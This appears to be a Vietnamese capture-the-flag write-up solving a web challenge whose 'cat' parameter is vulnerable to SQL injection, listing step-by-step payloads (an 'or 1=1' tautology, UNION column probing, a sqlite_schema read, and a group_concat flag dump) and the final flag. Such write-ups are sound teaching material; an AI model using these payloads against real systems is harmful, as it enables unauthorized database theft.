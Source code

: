 ![image](https://github.com/caodchuong312/CTFs/assets/92881216/afa3d1e3-2c24-4700-af4c-0dca204217f6)

![image](https://github.com/caodchuong312/CTFs/assets/92881216/b1244f53-62c6-47e8-86b6-297897396742)

Vào chall thấy có tham số `cat` và nếu giá trị thích hợp thì sẽ ra ảnh mèo.

Fuzz vài giá trị dễ dàng biết được lỗ hổng **SQLi**.

![image](https://github.com/caodchuong312/CTFs/assets/92881216/3ab26847-0eb1-43cf-997b-bb17f9849c44)

![image](https://github.com/caodchuong312/CTFs/assets/92881216/ffa81990-ada2-4b85-8a84-6c0a5987d8af)

Test với payload đơn giản: `" or 1=1;--` được:

![image](https://github.com/caodchuong312/CTFs/assets/92881216/d278969b-f075-44f8-83c8-e9becb643925)

Như vậy toàn bộ data được dump ra. Khai thác thử với `UNION` và biết được query truy vấn 4 cột `" union select 1,2,3,4;--`:

![image](https://github.com/caodchuong312/CTFs/assets/92881216/eec39bd4-42ea-481f-8e83-979cd93309f5)

`3` được in ra vào phần `Name` như vậy là thành công. Giờ từ đó để dump database thôi.

Xem databe schema `" union select 1,2,(SELECT sql FROM sqlite_schema),4;--`:

![image](https://github.com/caodchuong312/CTFs/assets/92881216/b9d50038-5d05-41d4-b2fa-40c45b87cadf)

Có cột `flag` và dump nó bằng `" union select 1,2,(SELECT group_concat(flag) FROM cats),4;--`:

![image](https://github.com/caodchuong312/CTFs/assets/92881216/5a50177e-8010-4ece-91ec-8f1009faae6c)

>flag: `flag{a_sea_of_cats}`


